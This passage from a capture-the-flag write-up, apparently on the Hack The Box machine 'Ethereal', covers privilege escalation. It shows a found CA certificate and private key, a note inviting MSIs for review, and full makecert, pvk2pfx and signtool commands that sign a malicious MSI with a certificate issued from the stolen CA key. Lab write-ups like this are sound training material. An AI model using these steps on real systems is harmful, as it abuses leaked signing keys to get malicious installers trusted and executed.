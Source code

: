Awesome! Feel's good after doing so much, finally we have the `user.txt` file. But its not over yet.

## Privilege escalation

I found two drives mounted on the system, `C:` and `D:`, I found the following information from the `D:` drive.

```bash
D:\Certs>dir
 Volume in drive D is Development
 Volume Serial Number is 54E5-37D1

 Directory of D:\Certs

07/07/2018  09:50 PM    <DIR>          .
07/07/2018  09:50 PM    <DIR>          ..
07/01/2018  09:26 PM               772 MyCA.cer
07/01/2018  09:26 PM             1,196 MyCA.pvk
               2 File(s)          1,968 bytes
               2 Dir(s)   8,437,514,240 bytes free

D:\DEV\MSIs>dir
Volume in drive D is Development
Volume Serial Number is 54E5-37D1

Directory of D:\DEV\MSIs

07/08/2018  10:09 PM    <DIR>          .
07/08/2018  10:09 PM    <DIR>          ..
07/18/2018  09:47 PM               133 note.txt
               1 File(s)            133 bytes
               2 Dir(s)   8,437,514,240 bytes free

D:\DEV\MSIs>type note.txt
Please drop MSIs that need testing into this folder - I will review regularly. Certs have been added to the store already.

- Rupal               
```

Next task, create a `msi` file!?
I used a tool called EMCO MSI Package Builder.

![malmsi]({{ site.url }}{{ site.baseurl }}/assets/images/HTB_images/machines/ethereal/makemsi.JPG)

```bash
C:\Program Files\Microsoft SDKs\Windows\v7.1\Bin>makecert.exe -pe -n "CN=My SPC" -a sha256 -cy end -sky signature -ic \Users\pswapnil\Desktop\myca.cer -iv \Users\pswapnil\Desktop\myca.pvk -sv \Users\pswapnil\Desktop\MySPC.pvk \Users\pswapnil\Desktop\MySPC.cer
Succeeded

C:\Program Files\Microsoft SDKs\Windows\v7.1\Bin>pvk2pfx.exe -pvk \Users\pswapnil\Desktop\MySPC.pvk -spc \Users\pswapnil\Desktop\MySPC.cer -pfx \Users\pswapnil\Desktop\MySPC.pfx

C:\Program Files\Microsoft SDKs\Windows\v7.1\Bin>signtool.exe sign /v /f \Users\pswapnil\Desktop\MySPC.pfx /tr "http://timestamp.digicert.com" /td sha256 /fd sha256 \Users\pswapnil\Desktop\ethereal\ethereal.msi
The following certificate was selected:
    Issued to: My SPC
    Issued by: My CA
    Expires:   Sat Dec 31 15:59:59 2039
    SHA1 hash: 4AE112B8A498C3054308367DD04C80AA921B4BD4

Done Adding Additional Store
```